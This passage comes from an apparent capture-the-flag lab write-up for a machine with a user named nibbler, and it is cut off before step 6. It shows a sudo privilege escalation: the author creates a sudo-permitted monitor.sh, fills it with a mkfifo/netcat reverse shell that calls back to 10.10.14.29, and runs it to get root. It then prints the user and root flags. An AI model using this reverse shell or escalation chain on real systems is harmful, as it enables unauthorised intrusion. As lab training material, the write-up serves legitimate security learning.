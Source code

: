 6. I checked the sudo permissions of the user to find they are given root access to run a file called monitor.sh which is in the user's home folder and thus is editable.![image-20201023162749087](.Report.assets/image-20201023162749087.png)

7. This file didn't actually exist, so I created the folders and the file within it, then inserted this reverse shell command into it.

   ```bash
   mkdir -p /home/nibbler/personal/stuff
   touch /home/nibbler/personal/stuff/monitor.sh
   chmod +x /home/nibbler/personal/stuff/monitor.sh
   echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i |nc 10.10.14.29 8000 >/tmp/f; rm /tmp/f" >> /home/nibbler/personal/stuff/monitor.sh
   ```

8. I started a netcat listener and executed the file with sudo to get a root shell on Kali:

   ```bash
   sudo /home/nibbler/personal/stuff/monitor.sh
   ```

   ![image-20201023164841169](.Report.assets/image-20201023164841169.png)

9. From here I was able to obtain the contents of root.txt and user.txt
   ![image-20201023161519967](.Report.assets/image-20201023161519967.png)
   user.txt: b02ff32bb332deba49eeaed21152c8d8
   root.txt: b6d745c0dfb6457c55591efc898ef88c
